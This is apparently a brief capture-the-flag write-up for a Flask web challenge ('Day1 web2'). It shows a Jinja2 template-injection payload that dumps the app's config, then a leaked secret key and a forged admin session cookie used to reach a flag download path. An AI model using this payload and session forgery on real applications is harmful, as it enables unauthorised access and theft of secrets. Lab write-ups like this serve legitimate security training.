


# Day1 web2

Using command to start game

```
docker-compose up -d
```


```python
{{url_for.__globals__['current_app'].config}}
```



```
key: tulongzhezhongjiangchenglong
session: eyJjc3JmX3Rva2VuIjoiOGJiNTNlOWJkZDU2MGE3OGE0MWJlNDVmYjIzYzRlOWU3NWZiYWU0YiIsIm5hbWUiOiJhZG1pbiJ9.X-nNQQ.vHh4W77NpXEkvIRT_dUqDXAdnMM
```

touch `http://ip/kaisaier/admin_dowmload` to get flag



